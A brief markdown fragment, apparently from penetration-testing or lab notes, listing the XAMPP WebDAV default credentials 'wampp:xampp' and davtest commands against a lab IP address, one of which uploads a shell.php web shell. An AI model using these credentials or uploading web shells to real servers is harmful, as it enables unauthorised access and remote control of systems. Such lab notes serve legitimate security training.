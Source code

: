 ### Default Credentials

```bash
wampp:xampp
```

```bash
davtest -url http://10.10.49.246/davdir -auth 'wampp:xampp'
davtest -url http://10.10.49.246/webdav -auth 'wampp:xampp' -uploadfile shell.php -uploadloc shell.php
```

